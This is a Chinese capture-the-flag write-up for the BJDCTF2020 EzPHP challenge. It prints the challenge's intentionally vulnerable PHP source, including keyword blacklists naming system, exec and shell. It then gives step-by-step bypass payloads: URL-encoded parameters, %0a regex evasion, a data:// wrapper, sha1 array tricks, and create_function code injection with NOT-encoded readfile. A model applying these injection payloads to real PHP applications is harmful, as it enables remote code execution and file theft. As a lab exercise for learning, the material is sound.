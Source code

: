 # \[BJDCTF2020]EzPHP

### \[BJDCTF2020]EzPHP

## 考点

* `$_SERVER` 获取HTTP传入参数的脆弱性
* `preg_match`脆弱性
* PHP伪协议bypass 字符串相同限制
* &#x20;create\_function创建匿名函数
* PHP7 取反bypass代码执行

## wp

F12给了提示，`base32`解码得到`1nD3x.php`

<div data-full-width="true">

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

</div>

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

访问得到源码

{% code overflow="wrap" lineNumbers="true" fullWidth="true" %}
```php
 <?php
highlight_file(__FILE__);
error_reporting(0); 

$file = "1nD3x.php";
$shana = $_GET['shana'];
$passwd = $_GET['passwd'];
$arg = '';
$code = '';

echo "<br /><font color=red><B>This is a very simple challenge and if you solve it I will give you a flag. Good Luck!</B><br></font>";

if($_SERVER) { 
    if (
        preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING'])
        )  
        die('You seem to want to do something bad?'); 
}

if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!');

if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 

if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");


if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}

if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
} ?>
```
{% endcode %}

<mark style="background-color:red;">第一个</mark>`preg_match`在第15行

`$_SERVER['QUERY_STRING']`返回请求的参数和内容，访问`http://ip:port/1nD3x.php?shana=1&passwd=2`会返回`shana=1&passwd=2`，请求的参数有黑名单

<mark style="background-color:blue;">绕过</mark>`$_SERVER['QUERY_STRING']`不会对传入键值对进行解码，可以用URL编码绕过

<mark style="background-color:red;">第二个</mark>`preg_match`在第20行

GET请求的file参数不包含http或https

<mark style="background-color:red;">第三个</mark>`preg_match`在第21行

GET请求的debu参数必须是aqua\_is\_cute且不是aqua\_is\_cute

<mark style="background-color:blue;">绕过</mark>`preg_match`在非`/s`模式下，会忽略末尾的%0a，所以末尾加上%0a即可

`file=padding&debu=aqua_is_cute`

`%66%69%6c%65=%70%61%64%64%69%6e%67&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a`

<mark style="background-color:red;">第四个</mark>`preg_match`在第29行

$\_REQUEST获取所有GET和POST传入的参数和值，并以数组形式返回。

比如POST请求`http://ip:port/?a=1&d=4 POST b=2`会返回`array(3) { 'a' => string(1) "1" 'd' => string(1) "4" 'b' => string(1) "2" }`要求请求的值不含有英文字符

<mark style="background-color:blue;">绕过</mark>$\_REQUEST获取的参数默认POST优先级大于GET，所以POST再传入`file=1&debu=2`



<mark style="background-color:red;">第34行</mark>`if`语句要求`file_get_contents($file)`的内容必须为`debu_debu_aqua`

<mark style="background-color:blue;">绕过</mark>这个有两种方式绕过，一个是`php://input` 加POST `debu_debu_aqua` ，很明显不行

另一个就是`file=data://text/plain,debu_debu_aqua&debu=aqua_is_cute`

%66%69%6c%65=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a



<mark style="background-color:red;">第38行</mark>`if`语句要求传入的shana和passwd值不同且sha1相同

<mark style="background-color:blue;">绕过</mark>用数组绕过

`file=data://text/plain,debu_debu_aqua&debu=aqua_is_cute&passwd[]=1&shana[]=2`

`%66%69%6c%65=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a&%70%61%73%73%77%64[]=%31&%73%68%61%6e%61[]=%32`

这里不需要再POST参数，因为GET传的是数组，<mark style="background-color:red;">第四个</mark>`preg_match`的$value也是个数组，`preg_match`遇到数组会报错

然后`extract($_GET["flag"]);`存在变量覆盖



<mark style="background-color:red;">第五个</mark>`preg_match`在第45行 i不区分大小写 s视为单行，匹配换行符 D让$总是匹配字符串的末尾

$arg有黑名单，$code不能由纯英文数字组成，必须形如var\_dump print\_r

这里使用变量覆盖对$code和$arg赋值

```
$code('', $arg);
```

这种形式就是create\_function()创建匿名函数，它会创建一个函数名为`\000lambda_(count(anonymous_functions)++)`，如`\000lambda_1`，的匿名函数，第一个参数为匿名函数的参数，第二个函数为代码

```php
create_function('$a,$b', $arg)

eval(
\000lambda_1($a,$b){
    $arg
}
)
```

$arg的黑名单有pi \* sess head 根据<mark style="background-color:purple;">无参RCE</mark>的思路能用的只剩get\_defined\_vars()

根据代码执行还可以用取反

所以在本题就是code=create\_function  arg=}var\_dump(get\_defined\_vars());//

或者arg=}(\~%8F%97%8F%96%91%99%90)();//

```
eval(
\000lambda_1(){
    }var_dump(get_defined_vars());//
}
)
```

`file=data://text/plain,debu_debu_aqua&debu=aqua_is_cute&passwd[]=1&shana[]=2&flag[code]=create_function&flag[arg]=}var_dump(get_defined_vars());//`

`%66%69%6c%65=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a&%70%61%73%73%77%64[]=%31&%73%68%61%6e%61[]=%32&%66%6c%61%67[%63%6f%64%65]=create_function&%66%6c%61%67[%61%72%67]=}var_dump(get_defined_vars());//`

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

读取rea1fl4g.php

`readfile('rea1fl4g.php')`取反

{% code overflow="wrap" lineNumbers="true" %}
```
http://31e9b523-a95b-4c3a-8bd6-0a322f1d383f.node4.buuoj.cn:81/1nD3x.php?%66%69%6c%65=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a&%70%61%73%73%77%64[]=%31&%73%68%61%6e%61[]=%32&%66%6c%61%67[%63%6f%64%65]=create_function&%66%6c%61%67[%61%72%67]=}(~%8D%9A%9E%9B%99%96%93%9A)((~%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F));//

file=1&debu=2
```
{% endcode %}

## 小结

1. `$_SERVER['QUERY_STRING']`不会对传入键值对进行解码，可以用URL编码绕过
2. create\_function()创建匿名函数，它会创建一个函数名为`\000lambda_(count(anonymous_functions)++)`，如`\000lambda_1`，的匿名函数，第一个参数为匿名函数的参数，第二个函数为代码
3.  伪协议绕过字符串限制，一个是`php://input` 加POST `debu_debu_aqua` ，

    另一个就是`file=data://text/plain,debu_debu_aqua&debu=aqua_is_cute`
4. `preg_match`在非`/s`模式下，会忽略末尾的%0a
5. `preg_match`传入数组会报错
